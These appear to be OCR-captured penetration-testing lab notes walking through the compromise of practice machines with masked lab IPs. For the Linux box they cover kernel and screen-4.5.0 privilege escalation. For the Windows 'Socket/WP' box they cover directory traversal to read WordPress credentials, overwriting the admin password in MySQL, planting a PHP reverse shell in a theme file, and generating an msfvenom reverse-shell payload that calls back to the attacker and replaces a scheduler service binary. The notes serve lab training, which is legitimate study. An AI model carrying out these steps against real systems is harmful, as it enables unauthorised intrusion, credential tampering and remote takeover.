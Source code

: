 1. User shell!
Privilege Escalation to Root
1st Way - Linux Kernel
1. Exploit is https://www.exploit-db.com/exploits/45010
2. gcc -o 45010 45010.c
3. Send the binary to target machine and run
4. Root Shell!
2nd Way - Service
1. Run a Linux Enumeration Tool
2. You will see a setuid binary called screen-4.5.0 which is vulnerable to Local Privilege
Escalation - https://www.exploit-db.com/exploits/41154
1. Setup a python server in your local machine and download the exploit to target machine
2. Run the exploit
3. Root shell!

```bash
Socket/WP (.46)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Gobuster the port 8081 - gobuster -u http://192.168.XX.46:8081 -w
/opt/SecLists/Discovery/Web-Content/common.txt -x txt,php,asp,db
1. CyBroHttpServer 1.0.3 is vulnerable to Directory Traversal -
https://www.exploit-db.com/exploits/45303
1. http://192.168.XX.46:8081/..\..\..\..\xampp\htdocs\blog\wp-config.php
2. Get the credential & Connect to MySQL - mysql -u root -h 192.168.XX.46 -p
3. Use wordpress database and select * from wp_users
4. Run UPDATE `wp_users` SET `user_pass`= MD5('bypassed') WHERE
`user_login`='admin';
1. Login to http://192.168.XX.46/blog/wp-admin/
2. Go to Theme Editor and edit 404.php
3. Use PHP Reverse Shell and listen to your machine
4.  User shell!
Privilege Escalation to Root
1. A System Scheduler service is installed in the machine located at C:\Program
Files\SystemScheduler\WScheduler.exe and vulnerable to
https://www.exploit-db.com/exploits/45072
1. Its permission is Everyone [WriteData/CreateFiles] and it will automatically run in startup
because HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
1. Create an exe file using msfvenom - msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.XX.XX LPORT=443 -f exe -a x86 --platform win > WScheduler.exe
1. Backup the original schedule in the target machine - move "C:\Program
Files\SystemScheduler\WScheduler.exe" "C:\Program
Files\SystemScheduler\WScheduler.back"
1. Copy your reverse shell to target machine - copy \\192.168.XX.XX\LOVE\WScheduler.exe
"C:\Program Files\SystemScheduler\"
1. Restart the target machine - shutdown /R
2. Root shell!
